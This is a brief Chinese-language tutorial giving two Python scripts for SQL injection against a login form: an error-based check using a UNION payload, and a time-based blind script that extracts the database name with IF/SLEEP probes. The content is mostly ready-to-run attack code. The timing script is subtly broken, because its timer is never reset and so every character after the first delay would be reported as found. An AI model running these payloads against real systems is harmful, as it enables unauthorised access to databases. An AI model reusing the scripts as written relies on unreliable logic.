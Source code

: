 ### 报错注入检测脚本

> 报错注入是一种常见的SQL注入技术，其基本原理是通过构造恶意的SQL查询语句，使目标网站返回错误信息，从而获得有关目标数据库的敏感信息

它的检测关键点在于回显需要有报错信息，在下面的脚本中报错回显是

> "You have an error in your SQL syntax"

使用python编写一个实例脚本

    import requests
    
    # 定义目标网站URL和注入参数
    target_url = 'http://www.example.com/login.php'
    injection_param = 'username'
    
    # 构造注入语句
    injection_payload = "' or 1=1 union select 1,2,3,4,5,6,7,8,9,10 from information_schema.tables where table_schema=database()-- "
    
    # 发送恶意请求
    payload = {injection_param: injection_payload}
    response = requests.post(target_url, data=payload)
    
    # 分析响应并检测是否存在SQL注入漏洞
    if "You have an error in your SQL syntax" in response.text:
        print("SQL注入漏洞存在")
    else:
        print("SQL注入漏洞不存在")
    

### 时间盲注检测脚本

时间盲注，最重要的就是时间

    import requests
    import time
    
    # 定义目标网站URL和注入参数
    target_url = 'http://www.example.com/login.php'
    injection_param = 'username'
    
    # 构造注入语句
    injection_payload = "' or if(substr(database(),{pos},1)='{char}', sleep(5), null)-- "
    
    # 发送恶意请求并计时
    start_time = time.time()
    for i in range(1, 20):   # 假设数据库名称长度不超过20个字符
        for j in range(33, 127):   # ASCII码表中可见字符的范围
            # 替换注入语句中的占位符
            payload = {injection_param: injection_payload.format(pos=i, char=chr(j))}
            response = requests.post(target_url, data=payload)
            # 如果响应时间大于5秒，则表示猜测的字符是正确的
            if time.time() - start_time > 5:
                print("第{}位字符为：{}".format(i, chr(j)))